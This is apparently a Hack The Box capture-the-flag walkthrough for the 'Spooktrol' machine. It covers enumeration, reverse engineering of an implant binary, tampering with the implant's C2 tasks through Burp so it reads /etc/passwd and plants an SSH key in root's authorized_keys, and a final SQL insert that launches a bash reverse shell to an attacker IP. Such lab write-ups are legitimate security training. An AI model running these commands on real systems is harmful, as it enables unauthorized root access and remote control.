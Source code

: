 # Enumeration

## Nmap

```bash
sudo nmap -sV -sC -oA nmap/spooktrol 10.10.11.123

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open  http    uvicorn
| http-robots.txt: 1 disallowed entry 
|_/file_management/?file=implant
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (application/json).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     date: Wed, 27 Oct 2021 07:30:24 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"detail":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Wed, 27 Oct 2021 07:30:10 GMT
|     server: uvicorn
|     content-length: 43
|     content-type: application/json
|     Connection: close
|     {"auth":"1f74a681bac81a97711d9316b1da1e68"}
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     date: Wed, 27 Oct 2021 07:30:17 GMT
|     server: uvicorn
|     content-length: 31
|     content-type: application/json
|     Connection: close
|_    {"detail":"Method Not Allowed"}
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 16:77:76:8a:65:a3:db:23:11:21:66:6e:e4:c3:f2:32 (RSA)
|   256 61:92:eb:7a:a9:14:d7:60:51:00:0c:44:21:a2:61:08 (ECDSA)
|_  256 75:c1:96:9c:69:aa:c8:74:ef:4f:72:bd:62:53:e9:4c (ED25519)

```


Three ports

- 22
- 80
- 2222

Downloading binary from `/file_management/?file=implant` as mentioned in robots.txt


```bash
wget 'http://10.10.11.123/file_management/?file=implant'
```

# Foothold

## Implant

On running the binary hit some error regarding `json`


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028162957.png)





Running wireshark 

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028164325.png)

we found the domain and need to add to `/etc/hosts` file.

Analyzing binary in ghidra 

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028164739.png)

1st flag

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028164912.png)

break at `0x402013` to get 1st flag using `gdb`.

`finish` the function then you will get the flag.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028165356.png)

# User

break at system in upload funtion in case 3

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028165651.png)


inorder to acheive case three we can use burpsuite, first we need to interscept at locally the binnary 

change host file as following.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028165920.png)

Then add a second proxy at burp.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028170055.png)

Thirdly use socat to redirect port 8081 to port 80

`sudo socat TCP-LISTEN:80,fork,reuseaddr TCP:127.0.0.1:8081`

next use match and replace to change reponse task1 to task3

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028170359.png)

its worked.

```bash

┌[parrot]─[17:03-28/10]─[/home/aju/Hackthebox/machines/spooktrol]
└╼aju$./implant
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application


```

It returned as an error beause it is looking for some like we need to find that using gdp. lets break at system.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028184718.png)

On examine at $rdi we can find that it is looking for file `whoami` lets replace that in burpsuite in `match and replace` into `/etc/passwd`


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028184924.png)


we got replaced in next attempt.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185028.png)


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185049.png)
Now lets change `/etc/passwd` to our ssh public key


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185303.png)


upload the public to root's authorized_keys

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185412.png)

# Root

Logged in as root in docker.


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185502.png)

![user](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185502.png)


insert reverse into database task

`INSERT INTO tasks VALUES(13,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.82/9001 0>&1"','',X'726f6f740a');`

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028190236.png)

Got reverse shell as root


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028190141.png)



